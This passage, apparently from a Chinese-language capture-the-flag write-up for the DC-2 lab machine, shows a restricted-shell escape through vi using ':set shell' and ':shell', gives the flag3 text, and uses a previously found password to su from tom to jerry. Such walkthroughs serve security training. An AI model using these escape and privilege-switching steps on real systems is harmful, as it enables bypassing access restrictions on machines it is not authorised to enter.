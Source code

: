 可以用vi
那么 vi
然后 ESC 进入末行模式
输入 `:set shell=/bin/bash`
再 ESC 输入 `:shell`
退出发现可以用cd了
然后用 `/bin/cat` 执行 (其实usr下面是可以用less的... 无妨)
![img](DC-2/images/image-3.png)

**flag3**:
```
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

提示su?
那就用前面jerry的密码试一试
```
tom@DC-2:~$ /bin/su jerry
Password: 
jerry@DC-2:/home/tom$ 

```
